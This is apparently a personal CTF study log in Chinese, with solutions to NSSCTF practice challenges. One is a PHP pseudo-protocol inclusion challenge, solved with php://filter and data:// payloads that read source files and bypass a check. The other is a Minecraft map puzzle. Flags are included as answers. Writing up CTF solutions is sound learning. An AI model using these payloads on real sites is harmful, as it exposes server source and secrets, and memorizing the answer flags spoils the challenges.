

# 2025-02-27 题单

## 题单

- [x] [SWPUCTF 2021 新生赛]PseudoProtocols https://www.nssctf.cn/problem/441

- [x] [b01lers 2020]minecraft_purdue https://www.nssctf.cn/problem/3489

- [ ] [SUCTF 2018 招新赛]babyarray

- [ ] [HNCTF 2022 Week1]超级签到

- [ ] [N1CTF 2024]N0TR5A

## 题解

### [SWPUCTF 2021 新生赛]PseudoProtocols

#### 关键词

- php伪协议

#### 题目描述

无描述

#### 题解

- 观察网站结构

```
http://node7.anna.nssctf.cn:21388/index.php?wllm=
```

- 我们尝试直接在等号后面添加flag


- 猜测是php伪协议，以下是php伪协议的常用方法

```
?file=php://filter/convert.base64-encode/resource=index.php
```

- 访问

```
http://node7.anna.nssctf.cn:21388/index.php?wllm=php://filter/convert.base64-encode/resource=hint.php
```


- 解码


- 解码后发现要去/test2222222222222.php文件


- 继续解码得到

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
	echo "success\n";
	echo $flag;
}
```

- 通过以下模版进行访问

```php
?a=data://text/plain,
```

- 最终构造的payload

```php
http://node7.anna.nssctf.cn:21388/test2222222222222.php?a=data://text/plain,I want flag
```

- 最终得到flag

```php
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?> success NSSCTF{89291858-d079-4281-a5d5-8a43620126bb}
```

#### 答案

```
NSSCTF{89291858-d079-4281-a5d5-8a43620126bb}
```

### [b01lers 2020]minecraft_purdue

#### 关键词

- 我的世界！启动！

#### 题目描述

无描述

#### 题解

-  根据经验这是一个minecraft的题目，需要我们进入地图
-  我们通过～/Library/Application Support/minecraft/saves路径导入地图
-  然后在地图里面找就可以了



- 别问，问就是把学校炸了......

#### 答案

```
NSSCTF{M1NE}
```

